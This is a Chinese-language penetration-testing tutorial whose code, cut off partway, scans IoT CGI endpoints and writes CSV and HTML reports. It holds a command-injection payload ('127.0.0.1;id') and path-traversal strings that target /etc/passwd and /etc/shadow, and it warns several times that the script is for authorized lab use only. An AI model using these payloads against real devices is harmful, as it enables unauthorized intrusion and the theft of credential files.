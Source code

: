 - IoT 设备的 CGI 漏洞利用通常结合 **固件分析** 来发现未公开接口。
- 在渗透测试中，需要注意合法授权，否则属于非法攻击。

- 扫描 `/cgi-bin/` 下的 CGI 文件（使用你提供或预设的列表）
- 对可访问的 CGI 执行 **命令注入测试** 与 **路径遍历测试**
- 生成两份报告：**CSV**（概要）和 **交互式 HTML**（每个 Payload 可点击展开查看完整响应）
- HTML 用简洁的 JavaScript 实现展开/收起和高亮，方便离线查看

> **重要**：仅在你有授权的实验环境中运行此脚本。对未授权目标进行测试是非法的。

把下面代码保存为 `cgi_report_interactive.py`，修改 `TARGET` 与 `CGI_LIST` 后运行：`python3 cgi_report_interactive.py`

```Python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""
CGI 批量扫描 + 漏洞测试 + CSV + 交互式 HTML 报告
- 每个测试项在 HTML 报告中可展开查看完整响应
- 使用 html.escape() 对响应进行转义，防止 HTML 注入

仅用于实验或获授权目标测试
"""

import requests
from urllib.parse import quote
import csv
import os
import datetime
import html

# -----------------------------
# 配置区（请修改为你的实验目标/列表）
# -----------------------------
TARGET = "http://192.168.1.1"
CGI_LIST = [
    "ping.cgi",
    "download.cgi",
    "diag.cgi",
    "status.cgi",
    "config.cgi",
    "test.cgi",
    # 如果你想自动枚举，可以把更多常见名称放在这里
]

# payloads
CMD_INJECTION_PAYLOAD = "127.0.0.1;id"  # 示例 payload（注入 id）
PATH_TRAVERSAL_PAYLOADS = [
    "../../etc/passwd",
    "../../etc/shadow",
    "../../proc/cpuinfo"
]

TIMEOUT = 6  # 请求超时（秒）
CSV_REPORT_FILE = "cgi_scan_report.csv"
HTML_REPORT_FILE = "cgi_scan_report_interactive.html"

# -----------------------------
# 实用函数
# -----------------------------
def safe_get(url):
    """简单封装 requests.get，返回 (status_code, text) 或 (None, errstr)"""
    try:
        r = requests.get(url, timeout=TIMEOUT)
        return r.status_code, r.text
    except Exception as e:
```